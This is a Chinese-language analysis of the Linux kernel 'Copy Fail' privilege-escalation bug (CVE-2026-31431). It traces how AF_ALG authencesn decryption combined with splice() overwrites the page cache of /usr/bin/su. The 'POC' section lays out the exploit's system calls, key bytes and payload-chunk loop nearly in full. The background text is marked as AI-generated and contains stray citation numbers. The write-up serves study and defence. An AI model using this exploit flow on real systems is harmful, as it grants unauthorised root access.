## backgroud

现代网络安全防御体系中，Linux 内核的安全性一直是云计算、容器化环境以及企业级基础设
施的基石。然而，2026 年 4 月 29 日公开披露的 CVE-2026-31431（被称为“Copy Fail”）
漏洞，彻底挑战了人们对于内核逻辑隔离的传统认知 。这一高可靠性的本地权限提升（LPE）
漏洞不仅波及了自 2017 年以来发布的所有主流 Linux 发行版，更因其“确定性”和“无竞争
条件”的特性，被安全研究界视为继 Dirty COW 和 Dirty Pipe 之后的又一里程碑式漏洞 。

### 背景与发现过程：AI 辅助审计的突破
CVE-2026-31431 的发现标志着漏洞挖掘技术进入了一个新纪元。该漏洞并非由传统的手工代
码审计或大规模模糊测试（Fuzzing）直接发现，而是通过 Theori 公司的 `Xint Code AI` 辅
助审计系统在极短的时间内识别出来的.

根据安全研究员 Taeyang Lee 的描述，发现过程始于一个针对 Linux 内核 `crypto` 子系统的
宏观假设。研究人员观察到，AF_ALG 接口（内核用户空间加密 API）与 splice() 系统调用
的结合，可能创造出一种未经充分探索的攻击面，即Scatterlist Page Provenanc）问题 。
利用 Xint Code 系统的“操作员提示”（Operator Prompt）功能，研究人员向 AI 系统提供
了如下核心逻辑：

```
This is the linux crypto/ subsystem. Please examine all codepaths reachable from
userspace syscalls. Note one key observation: splice() can deliver page-cache
references of read-only files (including setuid binaries) to crypto TX
scatterlists.
```

在这一提示的引导下，AI 系统仅用约一小时便扫描并识别出了 algif_aead 模块中的逻辑缺陷.
扫描结果显示，受影响的 authencesn 算法在执行过程中会将受控数据写入错误的内存偏移处,
而这一偏移恰好指向了由 splice() 引入的只读页缓存页面.

CVE-2026-31431 的修复与披露过程遵循了负责任的漏洞披露原则，但也充满了技术挑战。

### 漏洞时间线与披露
CVE-2026-31431 的修复与披露过程遵循了负责任的漏洞披露原则，但也充满了技术挑战。

|日期|事件|
|----|----|
|2026-03-23	|向 Linux 内核安全团队报告漏洞|
|2026-03-24	|收到初步确认回复|
|2026-03-25|补丁方案提出并完成初步审查|
|2026-04-01|补丁正式提交至 Linux 主线内核（Commit a664bf3d603d） |
|2026-04-22|漏洞被正式分配编号 CVE-2026-31431 |
|2026-04-29|漏洞细节及 Proof-of-Concept (PoC) 正式公开|


该漏洞之所以引起轰动，是因为它提供了一个极其简洁且高 portable 的利用方式：
一段仅 732 字节的 Python 脚本<sup>2</sup>，无需任何内核偏移调整或竞争窗口触发，便能在
多个发行版上稳定获得 root 权限 。

### 漏洞根源：三次历史更新的致命交织

CVE-2026-31431 并不是由单一的代码编写错误导致的，而是由横跨 15 年的三次独立技术更新.

1. 2011 年：authencesn 算法的引入

   authencesn 算法全称为“带额外数据的认证加密（支持扩展序列号）”，最初被引入内核
   是 为了增强 IPsec 协议栈的功能 1。该算法的一个特殊逻辑是，它需要处理 IPsec
   ESP 中的 扩展序列号（ESN）。为了提高处理效率，authencesn 被设计为直接在调用者
   提供的目标缓 冲区中进行“原地”重组序列号的操作。在 2011 年，该算法主要在内核内
   部（如 xfrm 层） 使用，调用者提供的缓冲区通常是受控的内核态内存，因此这种“刮
   擦缓冲区”（Scratchpad） 行为在当时是安全的 1。

2. 2015 年：AF_ALG 接口支持 AEAD
   AF_ALG 是 Linux 内核提供的一套基于 Netlink 的接口，允许用户空间程序直接调用内
   核 集成的各种加密算法 10。2015 年，该接口增加了对带额外认证数据加密（AEAD）算
   法的支 持，其中就包括了`authencesn`。这一更新将原本仅限内核内部使用的加密路
   径暴露给了非特权的用户空间进程 4。

3. 2017 年：致命的原地优化（Commit 72548b093ee3）

   2017 年，为了进一步优化 algif_aead 模块的性能，内核引入了原地（In-place）处理
   机制 1。该优化的核心逻辑是让请求的源散列列表（`req->src`）和目标散列列表（`req->
   dst`）指向同一块内存区域，从而避免在加密或解密过程中分配额外的输出缓冲区 1。
   在这一优化下，如果用户空间通过 `splice()` 将数据注入 AF_ALG 套接字，`algif_aead`
   会错误地将代表只读页缓存页面的散列列表链接到可写的目标散列列表中6。

> Note
>
> 以上文本均由AI生成<sup>1</sup>

## 代码详解

我们从`POC`出发，查看其具体执行了哪些库函数.

> Note
>
> 为了更方便的走读poc的流程，我们分析<sup>4</sup>, PoC源码.

### POC

PoC具体流程:

```sh
main()
## 定义一段未解压的攻击代码
=> unsigned char compressed[] = {0x78,0xda,...}
## 解压到patch
=> uncompress(patch, &patch_len, compressed, sizeof(compressed))
## 打开`/usr/bin/su` 作为splice对端
=> int fd = open("/usr/bin/su", O_RDONLY);
## 做一个循环，将整个的patch buffer 注入到 /usr/bin/su page-cache
=> for (size_t i = 0; i < patch_len; i += 4) {
        exploit_chunk(fd, i, patch + i);
   }
```
接下来主要看 `exploit_chunk()`
```sh
exploit_chunk()
## 定义sa
=> struct sockaddr_alg sa = { .salg_family = AF_ALG,
        .salg_type = "aead",
         ## 使用authencesn 认证方式
        .salg_name = "authencesn(hmac(sha256),cbc(aes))"
   }
## 一套组合拳
=> int sock = socket(AF_ALG, SOCK_SEQPACKET, 0);
=> unsigned char key[40] = {0x08,0x00,0x01,0x00,0x00,0x00,0x00,0x10};
=> setsockopt(sock, SOL_ALG, 1, key, sizeof(key));
=> setsockopt(sock, SOL_ALG, 5, NULL, 4);
=> int opfd = accept(sock, NULL, 0);
## 将攻击代码转移进入 ADD 部分
=> unsigned char payload[8];
=> memcpy(payload, "AAAA", 4);
### chunk 为攻击代码
=> memcpy(payload + 4, chunk, 4);

## 构造msghdr 为sendmsg做准备
=> struct iovec iov = { .iov_base = payload, .iov_len = 8 };
=> struct msghdr msg = {.msg_iov = &iov, ...}

## 调用sendmsg
=> sendmsg(opfd, &msg, 32768);

## 调用splice， 将pagecache也搞进 tsgl
=> off_t off = 0;
=> splice(fd, &off, pipefd[1], NULL, offset + 4, 0);
=> splice(pipefd[0], NULL, opfd, NULL, offset + 4, 0);

## 调用recv() 攻击完成!
=> char discard[8192];
=> recv(opfd, discard, 8 + offset, MSG_DONTWAIT);
```

通过`offset`，来调整要覆盖的pagecache的位置. 而`offset` 在`exploit_chunk()`
函数中，只作用于`recv()`系统调用

**基于poc，我们来简单描述下 所涉及的其他知识**

* **AF_ALG sock**: 
  
  AF_ALG 是 Linux 内核提供的一套用户空间加密接口，它通过标准的套接字（socket）机
  制， 为上层应用调用内核中的各种加密算法提供了可能。

  AF_ALG提供四类算法:
  + 消息摘要 (Hash)
  + 对称加解密 (Symmetric Cipher)
  + **AEAD (带关联数据的认证加密)** (该poc利用这个算法)
  + 随机数生成器 (RNG)

* **authencesn**: 

  **authentication with Extended Sequence Numbers**

  AEAD（Authenticated Encryption with Associated Data，带关联数据的认证加密）
  封装器，专门为 IPsec 协议中的扩展序列号（ESN） 设计

  详细信息见<sup>5</sup>

  该算法有个特点，需要在认证时，需要将ESP的 `seqnum_hi`(`seqnum` 在`ESP`中为8-byte)放到认证数据
  的低byte，而`seqnum_lo`放到认证地址的高byte, 然后中间包裹着密文, 从而对密文
  +seqnum 信息都做认证（这也是这个CVE重要的触发点)

* **splice**

  `splice()`起到的主要作用是zero copy, 简单描述下，在无`splice()`情况下, 发生了4
  次数据copy.

  <details markdown=1 open>

  <summary>not use splice() vs use splice()</summary>

  ```
  +-----------------------------------------------------------------------------------+
  | 【用户空间 (User Space)】                                                         |
  |                                                                                   |
  |                      +---------------------> +---------------------+              |
  |                      |                       |                     |              |
  |                      |  [ 用户内存缓冲区 ]   |  [ 用户内存缓冲区 ] |              |
  |                      |  (User Buffer)        |  (User Buffer)      |              |
  |                      |                       +----------v----------+              |
  +----------------------|----------------------------------|-------------------------+
  | 【内核边界 (Kernel Boundary)】                           |                         |
  +----------------------|----------------------------------|-------------------------+
  | 【内核空间 (Kernel Space)】                             v                         |
  |                      | (2) CPU 拷贝                     | (3) CPU 拷贝            |
  |                      |                                  |                         |
  |            +---------+--------+               +---------v--------+                |
  |            |  [ Page Cache ]  |               | [ Socket Buffer ]|                |
  |            |   (文件页缓存)   |               |   (套接字缓冲区) |                |
  |            +---------^--------+               +---------v--------+                |
  |                      |                                  |                         |
  |                      | (1) DMA 拷贝                     | (4) DMA 拷贝            |
  |                      |                                  |                         |
  |                  [ 磁盘 ]                            [ 网卡 ]                     |
  +-----------------------------------------------------------------------------------+
  ```
  刨除`DMA` copy, 也剩余两次CPU 参与的copy. 在有`splice()`情况下:
  ```
  +-----------------------------------------------------------------------------------+
  | 【用户空间 (User Space)】                                                         |
  |                                                                                   |
  |                         程序只调用 splice()，发出控制指令                         |
  |                         ( 数据 0 拷贝，不进入用户空间 )                           |
  |                                         |                                         |
  +-----------------------------------------|-----------------------------------------+
  | 【内核边界 (Kernel Boundary)】           v                                         |
  +-----------------------------------------|-----------------------------------------+
  | 【内核空间 (Kernel Space)】             |                                         |
  |                                         |                                         |
  |            +------------------+         |         +------------------+            |
  |            |  [ Page Cache ]  | --------+-------> | [ Socket Buffer ]|            |
  |            |   (文件页缓存)   |   指针传递(管道)  |   (套接字缓冲区) |            |
  |            +---------^--------+  【 零 拷 贝 】   +---------v--------+            |
  |                      |                                      |                     |
  |                      | (1) DMA 拷贝                         | (2) DMA 拷贝        |
  |                      |                                      |                     |
  |                  [ 磁盘 ]                                [ 网卡 ]                 |
  +-----------------------------------------------------------------------------------+
  ```
  使用了`splice()`, 只剩余两次DMA copy，做到了cpu zero copy。其主要的做法是，借
  助管道，将源端的`page address` 传递给目的端，而目的端，直接使用源端的`page
  address`做为DMA address。从而避免copy数据。

  </details>

基本知识简单介绍这些. 下面我们来看CVE具体的触发流程:

## CVE 触发流程

本节不展示代码，但是将代码所带来的数据结构的变化，列举出来, 根据这些数据结构
变化，可以清晰看出CVE是如何覆盖pagecache.

### STEP 1: prepare ALG sock



在`socket(), bind(), accept()`调用完后，`tsgl` 链表为空.

### STEP 2: usespace build attack msghdr



用户态构造了一个buffer, 其中包含`AAAA`（随意格式数据) + `attack code`（前面提到
的`patch buffer` 的一部分)。并借此构造`msghdr`, 为`sendmsg()`做准备

### STEP 3: sendmsg()



调用`sendmsg()` 系统调用，`sendmsg()` 不是zero copy接口，其通过`copy_from_user()`
将用户态buffer data copy到内核态page，并链入`tsgl` link, 此时tsgl link 只有一个
tsgl 成员，而该tsgl成员中，只有一个`sg[]`数组成员被赋值.

接下来，便是两个非常重量级的操作, zero copy interface -- `splice()`

### STEP4: splice() filefd as infd



第一次是将要攻击的文件 `/usr/bin/su` 作为splice 管道的输入端。调用完后, 管道中link
了一个page -- `su` **file first index pagecache**.

### STEP5: splice() sockfd as outfd



第二次`splice()` 是将`alg sockfd` 作为`splice()` 管道的输出端。调用完后, `alg
sock tsgl`成功引用了 `su` 文件的pagecache.

**经过两次splice()后，tsgl 拥有的数据如下**



其中包括三部分: `ADD || CT || TAG`， 但是第一轮循环中CT长度为0.

### STEP6: prepare recv

调用`recv()` 接口，执行解密(认证)的流程，用户态准备了`discard[4096]` buffer来获取解密
后的数据.



在`recv()` 调用过程中，内核会分配`af_alg_async_req` 数据结构，申请后的`rsgl` 为空



### STEP 7: rsgl link userspace page

首先将`discard[]`（用户传递过来的buffer）链入rsgl



### STEP 8: areq alloc tsgl

分配tsgl, 为什么要分配tsgl呢? 因为要用tsgl 承接 tag sg，下面会讲到。



### STEP 9: copy ADD+CT from tsgl

首先将, `add || CT(0)` 数据从tsgl copy到 rsgl



### STEP 10: pull tsgl

此时，因为上面已经copy了`add || CT(0)`, 所以`tsgl[0, len(ADD+CT))` 数据不再有用，
这里将这部分page release掉，当然相关的tsgl ，sg 相关结构也被释放。

但是还有一个地方没有`copy`, 那就是tag. 为什么`tag`如此特殊呢, 因为 recv
outbuffer中不带tag信息(只包括 `ADD||CT`), 所以不能向用户态buffer copy该数据。

但是，后续的认证过程，还需要tag作为 `ihash` 参与认证过程(个人理解是用ihash和重新
计算的到的ohash做比对), 所以这部分数据还不能丢掉。

但是!!! 内核开发者又不太想copy 这个数据到一个新buffer, **既然想追求性能，那就要贯
彻到底喽**.

索性，就临时借用直接用tsgl的这个 page 中的buffer 作为rsgl buffer. 但是在这个过程中
`tsgl, tsgl->sg[]`均已被释放干净，那哪里来承接tag 所在的page呢?

先用`areq->tgsl` 存放下.



### STEP 11: sg_chain() rsgl <=> tsgl

将tag 部分 通过`sg_chain()` 链接到之前的`rsgl->last_rsgl->sg[tail]`上.这样
rsgl link 中就包含了 `page cache page`



### STEP 12: COPY ATTACK CODE TO PAGECACHE
前面提到过, `authencesn` 认证算法，需要将 `seqnum_lo` 部分，copy到
`assoclen+cryptlen`处，在本次循环中，为8. 正好覆盖`su pagecache[0,4)`, 自此,
`su pagecache[0,4)`被覆盖为用户态设置的攻击代码

